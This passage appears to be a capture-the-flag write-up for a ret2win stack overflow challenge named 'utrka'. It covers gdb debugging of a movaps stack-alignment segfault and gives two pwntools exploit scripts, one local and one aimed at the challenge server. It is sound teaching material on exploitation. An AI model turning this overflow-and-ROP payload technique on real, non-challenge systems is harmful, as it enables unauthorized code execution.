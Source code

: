 And we get a segfault, let's see why in our debugger.

![gdb output](https://i.imgur.com/PkUOBiZ.png)

We are successfully returning to the win function, but let's try and see why does it segfault.

![gdb segfault](https://i.imgur.com/Rphw4Bw.png)

It segfaults at `movaps xmmword ptr [rsp], xmm0`, and after a bit of research I found out that this instruction will segfault if the stack isn't properly aligned. So it seems that even in this simple ret2win attack we will need to do some [return oriented programming](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing)

To realign the stack we just need to return to the `ret` instruction once more before we return to the win function, the easiest way to do that is just to return back to the end of main, if we disassemble main we can see that the `ret` instruction is located at `main+530`, so let's return to that.

```python
from pwn import *

elf = ELF('./utrka')

payload = b'A' * cyclic_find(0x63616171) # padding
payload += p64(elf.symbols['main']+530)  # realign stack frame
payload += p64(elf.symbols['win'])       # profit

p = process('./utrka')
p.sendline(payload)
p.interactive()
```

We run it locally.
```text
You lose :(

CTF2024[testing_flag]
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x97\xb2
[*] Got EOF while reading in interactive
$ 
[*] Process './utrka' stopped with exit code -11 (SIGSEGV) (pid 22239)
[*] Got EOF while sending in interactive
```

All that is left now is to run it on the server

```python
from pwn import *

elf = ELF('./utrka')

payload = b'A' * cyclic_find(0x63616171) # padding
payload += p64(elf.symbols['main']+530)  # realign stack frame
payload += p64(elf.symbols['win'])       # profit

r = remote('chal.hackultet.hr', 13015)
r.sendline(payload)
r.interactive()
```
